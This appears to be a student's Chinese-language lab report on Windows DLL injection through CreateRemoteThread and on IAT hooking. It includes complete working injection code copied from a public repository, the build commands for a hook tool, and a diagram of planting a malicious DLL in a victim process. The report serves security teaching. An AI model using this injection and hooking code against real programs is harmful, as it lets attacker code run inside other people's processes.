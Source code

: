 # Lab5



## 实验要求

* 查文档，研究远程线程方式注入dll的实例代码的实现原理。
* 运行实例代码，向一个目标程序（比如notepad.exe)注入一个我们自行编写的dll，加载运行。
* 整合进程遍历的程序，使得攻击程序可以自己遍历进程得到目标程序的pid。



## 实验过程

* 运行时链接

```c++
BOOL WINAPI DllMain(
    HINSTANCE hinstDLL,  // handle to DLL module
    DWORD fdwReason,     // reason for calling function
    LPVOID lpReserved )  // reserved
{
    // Perform actions based on the reason for calling.
    switch( fdwReason ) 
    { 
        case DLL_PROCESS_ATTACH:
         // Initialize once for each new process.
         // Return FALSE to fail DLL load.
            break;

        case DLL_THREAD_ATTACH:
         // Do thread-specific initialization.
            break;

        case DLL_THREAD_DETACH:
         // Do thread-specific cleanup.
            break;

        case DLL_PROCESS_DETACH:
         // Perform any necessary cleanup.
            break;
    }
    return TRUE;  // Successful DLL_PROCESS_ATTACH.
}
```



* 程序注入

从 https://github.com/search?q=dll+inject 寻找示例代码

> https://github.com/fdiskyou/injectAllTheThings/blob/master/injectAllTheThings/t_CreateRemoteThread.cpp

```c++
#include <stdio.h>
#include <Windows.h>
#include <tlhelp32.h>
#include "fheaders.h"

DWORD demoCreateRemoteThreadW(PCWSTR pszLibFile, DWORD dwProcessId)
{
	// Calculate the number of bytes needed for the DLL's pathname
	DWORD dwSize = (lstrlenW(pszLibFile) + 1) * sizeof(wchar_t);

	// Get process handle passing in the process ID
	HANDLE hProcess = OpenProcess(
		PROCESS_QUERY_INFORMATION |
		PROCESS_CREATE_THREAD |
		PROCESS_VM_OPERATION |
		PROCESS_VM_WRITE,
		FALSE, dwProcessId);
	if (hProcess == NULL)
	{
		wprintf(TEXT("[-] Error: Could not open process for PID (%d).\n"), dwProcessId);
		return(1);
	}

	// Allocate space in the remote process for the pathname
	LPVOID pszLibFileRemote = (PWSTR)VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
	if (pszLibFileRemote == NULL)
	{
		wprintf(TEXT("[-] Error: Could not allocate memory inside PID (%d).\n"), dwProcessId);
		return(1);
	}

	// Copy the DLL's pathname to the remote process address space
	DWORD n = WriteProcessMemory(hProcess, pszLibFileRemote, (PVOID)pszLibFile, dwSize, NULL);
	if (n == 0)
	{
		wprintf(TEXT("[-] Error: Could not write any bytes into the PID [%d] address space.\n"), dwProcessId);
		return(1);
	}

	// Get the real address of LoadLibraryW in Kernel32.dll
	PTHREAD_START_ROUTINE pfnThreadRtn = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
	if (pfnThreadRtn == NULL)
	{
		wprintf(TEXT("[-] Error: Could not find LoadLibraryA function inside kernel32.dll library.\n"));
		return(1);
	}

	// Create a remote thread that calls LoadLibraryW(DLLPathname)
	HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pfnThreadRtn, pszLibFileRemote, 0, NULL);
	if (hThread == NULL)
	{
		wprintf(TEXT("[-] Error: Could not create the Remote Thread.\n"));
		return(1);
	}
	else
		wprintf(TEXT("[+] Success: DLL injected via CreateRemoteThread().\n"));

	// Wait for the remote thread to terminate
	WaitForSingleObject(hThread, INFINITE);

	// Free the remote memory that contained the DLL's pathname and close Handles
	if (pszLibFileRemote != NULL)
		VirtualFreeEx(hProcess, pszLibFileRemote, 0, MEM_RELEASE);

	if (hThread != NULL)
		CloseHandle(hThread);

	if (hProcess != NULL)
		CloseHandle(hProcess);

	return(0);
}
```

* 基本函数

  OpenProcess function：打开一个现有的本地进程对象。

  VirtualAllocEx function：在指定进程的虚拟地址空间内保留，提交或更改内存区域的状态。该函数将其分配的内存初始化为零。

  WriteProcessMemory：在指定的进程中将数据写入内存区域。必须写入整个区域，否则操作将失败。

  GetProcAddress：从指定的动态链接库（DLL）检索导出的函数或变量的地址。

  CreateRemoteThread：创建一个在另一个进程的虚拟地址空间中运行的线程。使用该函数可以创建在另一个进程的虚拟地址空间中运行的线程，并可以选择指定扩展属性。

  VirtualFreeEx：在指定进程的虚拟地址空间内释放，解除授权或释放并解除授权的内存区域


* IAT hook

新建工程，复制以下代码

```c++
#include<Windows.h>
//数据类型，函数指针类型
typedef int (WINAPI* MY_PROC)(char*);
int main()
{
	MessageBoxA(0, 0, 0, 0);
	HMODULE hBaselib = LoadLibrary("baselib.dll");
	if (hBaselib == NULL)
		return 0;
	FARPROC func = GetProcAddress(hBaselib, "lib_function");
	func("run time load");
}
```

- 设断点后转反汇编。发现调用loadlibrary处的地址,是baselib.dll库的地址，表的位置是固定的，但是表中的值是改变的，即库的地址是一直在动态变换的，链接时才知道具体的地址

<img src="1.png" alt="1" style="zoom:50%;" />

* 使用dumpbin /headers对二进制文件进行解析

<img src="2.png" alt="2" style="zoom:50%;" />

IAT hook：IAT hook就是篡改原本存在PE文件中系统函数的地址，使得调用假函数，以此达到攻击者的目的

> https://github.com/tinysec/iathook

将首页代码复制下来成main.c，将IATHook.c复制下来得到IATHook.c

在vs开发者工具中进行如下指令

```shell
cl.exe /c main.c 
cl.exe /c IATHook.c 
link main.obj IATHook.obj user32.lib kernel32.lib /out:hook.exe
```

<img src="3.png" alt="3" style="zoom:50%;" />

执行hook，发现第一次弹窗出现hook，点击确定后，内容发生变化

<img src="4.png" alt="4" style="zoom:50%;" />

<img src="5.png" alt="5" style="zoom:50%;" />

打开这两个.c文件，设断点

<img src="6.png" alt="6" style="zoom:50%;" />

<img src="7.png" alt="7" style="zoom:50%;" />

执行完后发现，原位置内容被修改了

## 实验原理图

编写一段恶意dll注入到受害者的程序中，让受害者执行攻击者希望其执行的代码

<img src="8.jpg" style="zoom:80%;" />